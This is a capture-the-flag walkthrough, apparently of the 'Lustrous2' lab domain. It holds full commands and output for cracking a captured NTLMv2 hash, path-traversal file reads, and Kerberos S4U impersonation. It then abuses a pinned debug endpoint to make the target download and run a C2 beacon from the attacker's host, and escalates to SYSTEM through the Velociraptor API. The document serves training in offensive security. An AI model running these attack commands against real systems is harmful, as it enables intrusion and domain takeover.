[SMB] NTLMv2-SSP Hash     : ShareSvc::LUSTROUS2:47c46def75c77fce:185C0D030C2514D358938E0F6A6E57B9:010100000000000000912029852ADD01D99AEB66018728E500000000020008005700340054004C0001001E00570049004E002D0039005900470054005000570037004C0034005300500004003400570049004E002D0039005900470054005000570037004C003400530050002E005700340054004C002E004C004F00430041004C00030014005700340054004C002E004C004F00430041004C00050014005700340054004C002E004C004F00430041004C000700080000912029852ADD010600040002000000080030003000000000000000000000000021000049E07234F86BCA45BDC772642BBF96F4DD25CA0353530A0D7F12B823FFC026C20A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00360031000000000000000000
```

I have now captured the hash

```python
hashcat sharesvc.hash /usr/share/wordlists/rockyou.txt

SHARESVC::LUSTROUS2:47c46def75c77fce:185c0d030c2514d358938e0f6a6e57b9:010100000000000000912029852add01d99aeb66018728e500000000020008005700340054004c0001001e00570049004e002d0039005900470054005000570037004c0034005300500004003400570049004e002d0039005900470054005000570037004c003400530050002e005700340054004c002e004c004f00430041004c00030014005700340054004c002e004c004f00430041004c00050014005700340054004c002e004c004f00430041004c000700080000912029852add010600040002000000080030003000000000000000000000000021000049e07234f86bca45bdc772642bbf96f4dd25ca0353530a0d7f12b823ffc026c20a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00360031000000000000000000:#1Service
```

The hash cracked

```python
sharesvc:#1Service
```

```python
nxc smb lus2dc.lustrous2.vl -u sharesvc -p '#1Service' -k                                  
SMB         lus2dc.lustrous2.vl 445    lus2dc           [*]  x64 (name:lus2dc) (domain:lustrous2.vl) (signing:True) (SMBv1:None) (NTLM:False)
SMB         lus2dc.lustrous2.vl 445    lus2dc           [+] lustrous2.vl\sharesvc:#1Service
```

This user is compromised

## File Read vulnerability

So this vulnerability can be used to capture the hash, but it can also be used to pull other files from the system, like `web.config`

```python
curl --negotiate -u : 'http://lus2dc.lustrous2.vl/File/Download?fileName=../../web.config' 
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="*" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="dotnet" arguments=".\LuShare.dll" stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" hostingModel="inprocess" />
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 4E46018E-B73C-4E7B-8DA2-87855F22435A-->
```

Ill remove the `-I` since i no longer want to send a HEAD

And now i get the contents

Looks like its referring to a file `LuShare.dll`

Ill download the DLL, since i wont be able to read it

```python
curl --negotiate -u : 'http://lus2dc.lustrous2.vl/File/Download?fileName=../../LuShare.dll' --output LuShare.dll
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100  53760 100  53760   0      0 678.4k      0                              0
```

Now ill open it in ILspy

## DLL reverse engineering



Ive loaded the DLL into VS code and ran the ILspy extension on it, looks like this website has more functionality that i originally thought, including a debug mode and a way to upload files



This is part of the file upload feature, looks as if it requires a used to be part of the `shareadmins` group



And also the same thing with the debug mode

The debug function looks as if it allows me to execute commands, by taking two parameters in the HTTP request, `command` and `pin`

The `pin` is hardcoded in the above screenshot and the command is up to me. So the only thing now is i have to compromise a user in the `shareadmins` group

## Bloodhound

So i need to be a part of the `shareadmins` for this to work, so ill start up bloodhound then look at the groups members

```python
impacket-getTGT lustrous2.vl/sharesvc:'#1Service' -k
Impacket v0.14.0.dev0+20260805.100140.701354e9 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in sharesvc.ccache
```

First ill generate a TGT

```python
export KRB5CCNAME=sharesvc.ccache
```

Then ill export it

```python
bloodyAD --host lus2dc.lustrous2.vl -d lustrous2.vl -u sharesvc -k get bloodhound
[+] Connecting to LDAP server
[+] Connected to LDAP serrver
Dumping schema: 2it [00:00, 26.93it/s]
Generating lookuptable: 152it [00:00, 776.46it/s]
Dumping SDs: 100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 156/156 [00:02<00:00, 62.12it/s]
Dumping domains: 100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 21.36it/s]
Dumping users: 100%|█████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 74/74 [00:00<00:00, 835.94it/s]
Dumping computers: 100%|███████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 4/4 [00:00<00:00, 192.37it/s]
Dumping groups: 100%|███████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 50/50 [00:00<00:00, 1097.94it/s]
Dumping GPOs: 100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 2/2 [00:00<00:00, 117.19it/s]
Dumping OUs: 100%|█████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 2/2 [00:00<00:00, 116.11it/s]
Dumping Containers: 100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 19/19 [00:00<00:00, 356.90it/s]
[+] Bloodhound data saved to 20260812T185315_Bloodhound.zip
[+] Found 0 trusts
```

Then ill use bloodyAD to collect the data, nxc was not working!



After starting up bloodhound and ingesting the data i can search the group, and i see there is two members. I need to first compromise one of these users before i can exploit the debug function in the web application

## Compromising `ryan.davies` through delegation

```python
getST.py -self -impersonate ryan.davies -k 'LUSTROUS2.VL/ShareSvc:#1Service' -altservice HTTP/lus2dc.lustrous2.vl
Impacket v0.14.0.dev0+20260805.100140.701354e9 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating ryan.davies
[*] Requesting S4U2self
[*] Changing service from ShareSvc@LUSTROUS2.VL to HTTP/lus2dc.lustrous2.vl@LUSTROUS2.VL
[*] Saving ticket in ryan.davies@HTTP_lus2dc.lustrous2.vl@LUSTROUS2.VL.ccache
```

Now i have the ticket

```python
export KRB5CCNAME=ryan.davies@HTTP_lus2dc.lustrous2.vl@LUSTROUS2.VL.ccache
```

Then ill export it

## Beacon as `sharesvc`

The next thing ill do is start up adaptix and get logged in to the teamserver

From there ill set a listener on port 443 and generate a stagless exe, shouldnt have to worry about obfuscation as i dont think defender is running

```python
python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
```

Ill then start up a web server to host the beacon

```python
curl -X POST --negotiate -u : 'http://lus2dc.lustrous2.vl/File/Debug' --data "command=iwr http://10.10.14.61:9000/agent.x64.exe -OutFile \programdata\agent.x64.exe" --data "pin=ba45c518"
```

Then ill pass in the command to reach out to my server and save it in programdata using the pin

```python
curl -X POST --negotiate -u : 'http://lus2dc.lustrous2.vl/File/Debug' --data "command=C:\programdata\agent.x64.exe" --data "pin=ba45c518"
```

Then ill just run the agent



I now have a beacon

```python
[12/08 20:53:03] ethan [4ed9dc46] beacon > getuid
[12/08 20:53:03] [*] Task: get username of current token
[12/08 20:53:06] [*] Agent called server, sent [12 bytes]
[12/08 20:53:06] [+] You are 'LUSTROUS2\ShareSvc' (elevated)

+--- Task [4ed9dc46] closed ----------------------------------------------------------+
```

## Domain Admin

```python
+--- Task [3e78fa4c] closed ----------------------------------------------------------+

[12/08 20:54:44] ethan [ad60c6c5] beacon > ls
[12/08 20:54:44] [*] Task: list files
[12/08 20:54:47] [*] Agent called server, sent [18 bytes]
[12/08 20:54:47] [+] Listing 'C:\'
 Type     Size           Last Modified         Name
 ----     ---------      ----------------      ----
 dir                     09/09/2024 17:35      $Recycle.Bin
 dir                     26/06/2025 13:56      $WinREAgent
 dir                     14/04/2025 10:59      Config.Msi
 dir                     06/09/2024 15:39      datastore
 dir                     31/08/2024 17:03      Documents and Settings
 dir                     14/04/2025 23:50      inetpub 
 dir                     08/05/2021 08:20      PerfLogs
 dir                     14/04/2025 09:57      Program Files
 dir                     06/09/2024 12:38      Program Files (x86)
 dir                     12/08/2026 19:48      ProgramData
 dir                     14/04/2025 11:44      Public  
 dir                     31/08/2024 17:03      Recovery
 dir                     06/09/2024 15:35      System Volume Information
 dir                     06/09/2024 13:57      temp    
 dir                     31/08/2024 08:56      Users   
 dir                     26/06/2025 14:12      Windows 
          12.00 Kb       12/08/2026 15:12      DumpStack.log.tmp
          1.38 Gb        12/08/2026 15:12      pagefile.sys
          0.03 Kb        14/04/2025 11:41      user_2e9c1.txt

+--- Task [ad60c6c5] closed ----------------------------------------------------------+
```

There is an interesting directory in the c drive `datastore`

```python
+--- Task [139fd756] closed ----------------------------------------------------------+

[12/08 20:56:41] ethan [022503d7] beacon > ls
[12/08 20:56:41] [*] Task: list files
[12/08 20:56:44] [*] Agent called server, sent [18 bytes]
[12/08 20:56:44] [+] Listing 'C:\datastore'
 Type     Size           Last Modified         Name
 ----     ---------      ----------------      ----
 dir                     06/09/2024 15:48      acl     
 dir                     06/09/2024 15:35      clients 
 dir                     06/09/2024 15:39      client_info
 dir                     06/09/2024 15:34      config  
 dir                     12/08/2026 15:13      logs    
 dir                     06/09/2024 15:35      notebooks
 dir                     06/09/2024 15:34      server_artifacts
 dir                     06/09/2024 15:34      server_artifact_logs
 dir                     06/09/2024 15:44      users

+--- Task [022503d7] closed ----------------------------------------------------------+
```

Looking at the contents of the directory, it looks to be a velociraptor install

And the server and client is stored in program files

```python
+--- Task [46e00975] closed ----------------------------------------------------------+

[12/08 21:05:34] ethan [392c939d] beacon > powershell .\velociraptor-v0.72.4-windows-amd64.exe --config server.config.yaml config api_client --name admin --role administrator \programdata\api.config.yaml
[12/08 21:05:34] [*] Task: create new process
[12/08 21:05:35] [*] Agent called server, sent [232 bytes]
[12/08 21:05:35] [+] Program C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c .\velociraptor-v0.72.4-windows-amd64.exe --config server.config.yaml config api_client --name admin --role administrator \programdata\api.config.yaml started with PID 1292 (output - with output)
[12/08 21:05:39] [+] Job [392c939d] output:
[ERROR] 2026-08-12T13:05:37-07:00 Unable to open file \\?\c:\datastore\config\inventory.json.db: open \\?\c:\datastore\config\inventory.json.db: Access is denied. 
[ERROR] 2026-08-12T13:05:37-07:00 Unable to open file \\?\c:\datastore\config\inventory.json.db: open \\?\c:\datastore\config\inventory.json.db: Access is denied. 
[ERROR] 2026-08-12T13:05:37-07:00 Unable to open file \\?\c:\datastore\config\inventory.json.db: open \\?\c:\datastore\config\inventory.json.db: Access is denied. 
Creating API client file on \programdata\api.config.yaml.
[ERROR] 2026-08-12T13:05:37-07:00 Unable to open file \\?\c:\datastore\acl\admin.json.db: open \\?\c:\datastore\acl\admin.json.db: Access is denied. 
velociraptor-v0.72.4-windows-amd64.exe: error: config api_client: Unable to set role ACL: open \\?\c:\datastore\acl\admin.json.db: Access is denied.
[12/08 21:05:39] [+] Job [392c939d] finished

+--- Task [392c939d] closed ----------------------------------------------------------+
```

After some research and reading of the docs, i see i need to create a api config

So since the way the command i need to run is formatted, i wont be able to run this as a BOF in my beacon, instead ill open a remote shell in adaptix, then running the command there

```python
C:\Program Files\VelociraptorServer>.\velociraptor-v0.72.4-windows-amd64.exe -a C:\programdata\api.config.yaml query "SELECT * FROM execve(argv=['C:\\programdata\\agent.x64.exe'])"
```

This is the command i ran in the remote shell, then after a second



I now have a SYSTEM beacon

```python
[12/08 22:31:21] ethan [2a881c41] beacon > getuid
[12/08 22:31:21] [*] Task: get username of current token
[12/08 22:31:25] [*] Agent called server, sent [12 bytes]
[12/08 22:31:25] [+] You are 'NT AUTHORITY\SYSTEM' (elevated)

+--- Task [2a881c41] closed ----------------------------------------------------------+
```

```python
+-------------------------------------------------------------------------------------+

[12/08 22:31:56] ethan [77f90adf] beacon > whoami
[12/08 22:31:56] [*] BOF implementation: whoami /all
[12/08 22:31:57] [*] Agent called server, sent [6.56 Kb]
[12/08 22:31:57] [+] BOF output

UserName		SID
====================== ====================================
LUSTROUS2\LUS2DC$	S-1-5-18


GROUP INFORMATION                                 Type                     SID                                          Attributes               
================================================= ===================== ============================================= ==================================================
BUILTIN\Administrators                            Alias                    S-1-5-32-544                                  Enabled by default, Enabled group, Group owner, 
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group, 
Mandatory Label\System Mandatory Level            Label                    S-1-16-16384                                  Mandatory group, Enabled by default, Enabled group, 


Privilege Name                Description                                       State                         
============================= ================================================= ===========================
SeAssignPrimaryTokenPrivilege Replace a process level token                     Disabled                      
SeLockMemoryPrivilege         Lock pages in memory                              Enabled                       
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process                Disabled                      
SeTcbPrivilege                Act as part of the operating system               Enabled                       
SeSecurityPrivilege           Manage auditing and security log                  Disabled                      
SeTakeOwnershipPrivilege      Take ownership of files or other objects          Disabled                      
SeLoadDriverPrivilege         Load and unload device drivers                    Disabled                      
SeSystemProfilePrivilege      Profile system performance                        Enabled                       
SeSystemtimePrivilege         Change the system time                            Disabled                      
SeProfileSingleProcessPrivilegeProfile single process                            Enabled                       
SeIncreaseBasePriorityPrivilegeIncrease scheduling priority                      Enabled                       
SeCreatePagefilePrivilege     Create a pagefile                                 Enabled                       
SeCreatePermanentPrivilege    Create permanent shared objects                   Enabled                       
SeBackupPrivilege             Back up files and directories                     Disabled                      
SeRestorePrivilege            Restore files and directories                     Disabled                      
SeShutdownPrivilege           Shut down the system                              Disabled                      
SeDebugPrivilege              Debug programs                                    Enabled                       
SeAuditPrivilege              Generate security audits                          Enabled                       
SeSystemEnvironmentPrivilege  Modify firmware environment values                Disabled                      
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled                       
SeUndockPrivilege             Remove computer from docking station              Disabled                      
SeManageVolumePrivilege       Perform volume maintenance tasks                  Disabled                      
SeImpersonatePrivilege        Impersonate a client after authentication         Enabled                       
SeCreateGlobalPrivilege       Create global objects                             Enabled                       
SeIncreaseWorkingSetPrivilege Increase a process working set                    Enabled                       
SeTimeZonePrivilege           Change the time zone                              Enabled                       
SeCreateSymbolicLinkPrivilege Create symbolic links                             Enabled                       
SeDelegateSessionUserImpersonatePrivilegeObtain an impersonation token for another user in the same sessionEnabled
[12/08 22:31:57] [+] BOF finished

+--- Task [77f90adf] closed ----------------------------------------------------------+
```

Domain Admin!
